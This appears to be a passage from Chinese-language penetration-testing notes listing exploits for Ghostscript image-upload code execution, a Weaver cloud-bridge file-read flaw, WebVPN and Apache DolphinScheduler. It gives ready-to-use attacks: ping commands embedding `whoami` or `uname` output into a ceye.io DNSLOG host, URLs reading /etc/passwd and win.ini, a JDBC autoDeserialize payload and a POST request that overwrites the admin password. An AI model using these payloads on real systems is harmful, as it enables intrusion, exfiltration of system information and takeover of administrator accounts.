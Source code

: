 &emsp;&emsp;Ghostscript是图像处理中十分常用的库，集成在imagemagick等多个开源组件中，其`.ps`文件存在沙箱绕过导致代码执行的问题影响广泛，由于上传图片就有可能代码执行，很多大厂中招。

&emsp;&emsp;[ghostscript命令执行漏洞预警](https://www.anquanke.com/post/id/157513)。

&emsp;&emsp;漏洞利用：

* [Exploit Database Search](https://www.exploit-db.com/search?q=Ghostscript)

* [CVE-2019-6116](https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2019-6116)

&emsp;&emsp;如果发现网站可以上传图片，且图片没有经过裁剪，最后返回缩略图，这里就可能存在Ghostscript上传图片代码执行dnslog可以用ping `uname`.admin.ceye.io或ping `whoami`.admin.ceye.io保存成图片，以后用起来方便，有个版本的centos和ubuntu poc还不一样，可以这样构造ping `whoami`.centos.admin.ceye.io / ping `whoami`.ubuntu.admin.ceye.io分别命名为centos_ps.jpg/ubuntu_ps.jpg，这样测试的时候直接传2个文件，通过DNSLOG可以区分是哪个poc执行的。

### 泛微云桥任意文件读取漏洞

* `http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt`

* `http://www.xxx.com/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt` 

### 网瑞达 WebVPN RCE 漏洞

&emsp;&emsp;WebVPN是提供基于web的内网应用访问控制，允许授权用户访问只对内网开放的web应用，实现类似VPN（虚拟专用网）的功能。

### Apache DolphinScheduler 高危漏洞 [CVE-2020-11974、CVE-2020-13922]

&emsp;&emsp;CVE-2020-11974与mysql connectorj远程执行代码漏洞有关，在选择mysql作为数据库时，攻击者可通过`jdbc connect`参数输入`{“detectCustomCollations”:true，“ autoDeserialize”:true}`在 DolphinScheduler 服务器上远程执行代码。

&emsp;&emsp;CVE-2020-13922导致普通用户可通过api interface在DolphinScheduler 系统中覆盖其他用户的密码：`api interface /dolphinscheduler/users/update`。

&emsp;&emsp;受影响版本：Apache DolphinScheduler = 1.2.0、1.2.1、1.3.1

&emsp;&emsp;利用POC：

```
POST /dolphinscheduler/users/update

id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=
```

![](/img/HW-Vuln/HW15.png)

